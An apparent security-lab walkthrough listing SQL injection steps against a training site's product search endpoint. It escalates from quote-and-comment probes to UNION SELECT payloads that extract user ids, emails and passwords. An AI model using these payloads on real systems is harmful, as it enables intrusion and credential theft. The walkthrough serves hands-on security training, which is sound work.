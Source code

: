 1. open Firefox browser 
6. 
``` http://labs.training.local/rest/products/search?q= 
```
7. 
``` 
http://labs.training.local/rest/products/search?q=test’-- 
```
8. 
``` 
http://labs.training.local/rest/products/search?q=test’)) -- 
```
10. http://labs.training.local/rest/products/search?q=test’)) UNION SELECT * FROM Users --
11. http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users --
12. http://labs.training.local/rest/products/search?q=test')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users --